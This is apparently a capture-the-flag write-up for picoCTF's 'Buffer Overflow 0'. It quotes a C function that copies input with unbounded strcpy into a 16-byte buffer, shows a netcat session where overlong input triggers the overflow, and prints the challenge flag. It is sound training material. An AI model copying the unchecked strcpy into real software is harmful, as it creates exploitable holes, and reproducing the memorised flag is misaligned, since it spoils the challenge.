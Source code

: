 # Buffer Overlow 0

## Description



## Solution
In this program we are asked to overflow the buffer. In the source code provided there is the following function

```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

In this program we are asked to overflow the buffer. In the source code provided there is the following function. This means that the input entered by the user will go into buf1, then inserted into buf2. 

The buf2 function (strcpy) does not limit the length of the copied data, so if the user enters more than 16 characters, the buffer overflow occurs.

```
$ nc saturn.picoctf.net 56567
Input: 111111111111111111111111
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```

## Flag
    picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}